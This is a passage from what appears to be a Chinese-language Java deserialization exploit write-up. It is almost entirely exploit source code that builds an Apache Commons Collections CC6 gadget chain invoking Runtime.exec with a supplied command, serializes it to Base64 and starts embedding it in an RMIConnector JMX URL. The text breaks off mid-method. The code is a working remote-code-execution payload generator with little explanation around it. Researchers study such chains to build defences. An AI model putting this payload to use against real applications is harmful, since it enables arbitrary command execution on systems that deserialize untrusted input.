 最后exp如下:
```java
package top.longlone;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static String getCC6Payload(String cmd) throws Exception {
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.clear();

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(objMap);

        return Base64.getEncoder().encodeToString(barr.toByteArray());
    }

    public static Object getPayload(String cmd) throws Exception {


        RMIConnector connector = new RMIConnector(new JMXServiceURL("service:jmx:iiop://127.0.0.1:8000/stub/{$payload}".replace("{$payload}", getCC6Payload(cmd))), null);

        Transformer invokerTransformer = new InvokerTransformer("getClass", null, null);
        java.util.Map innerMap = new HashMap();
```